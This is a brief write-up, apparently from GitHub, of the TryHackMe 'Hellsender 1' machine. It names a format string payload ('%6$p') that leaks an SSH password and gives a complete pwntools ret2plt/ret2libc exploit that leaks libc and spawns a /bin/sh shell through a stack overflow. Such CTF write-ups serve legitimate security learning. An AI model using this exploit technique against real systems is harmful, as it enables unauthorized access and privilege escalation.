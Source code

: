 # Hellsender-1
Writeup for Hellsender 1 machine on THM.

Over port 9999 we have format string bug which leaks ssh password using payload `%6$p`.

For privilage escalation we have to exploit stack overflow on /home/joey/stack

There are a lot of ways to exploit the binary, i have done it with ret2plt + ret2libc method. 

Remember - ASLR is on.

```python
#!/usr/bin/python3

from pwn import *

exe = 'stack'
elf = context.binary = ELF(exe,checksec=False)
rop = ROP(elf)
context.log_level = 'info'
libc = elf.libc

def get_offset():
    io = process()
    io.sendline(cyclic(300))
    io.wait()
    core = Coredump('core')
    if context.arch == 'i386':
        sp = core.read(core.esp, 4)
    else:
        sp = core.read(core.rsp, 4)
    offset = cyclic_find(sp)
    success(f'Offset Found : {offset}')
    return offset

def get_ropchain():

    rop.puts(elf.got.puts)
    rop.vuln()

    return rop.chain()

offset = 168#get_offset()

rop_chain = get_ropchain()

payload = flat({offset:rop_chain}) 

write("payload",payload)
info ("Payload written to payload file")
info(f"ROP Chain - \n{rop.dump()}")

if args.REMOTE:
    io = remote('', )
else:
    io = process()

if args.GDB:
    gdb.attach(io,"""
    break main
    continue
    """)

io.clean()
io.sendline(payload)
leak = io.recv(6)
libc.address = unpack(leak,'all') - libc.sym.puts
info(hex(libc.address))
rop = ROP(libc)
rop.raw(rop.find_gadget(['ret']))
bin_sh = next(libc.search(b'/bin/sh\x00'))
rop.system(bin_sh)
info(rop.dump())
payload2 = flat({offset:rop.chain()})
io.sendline(payload2)
io.interactive()
```
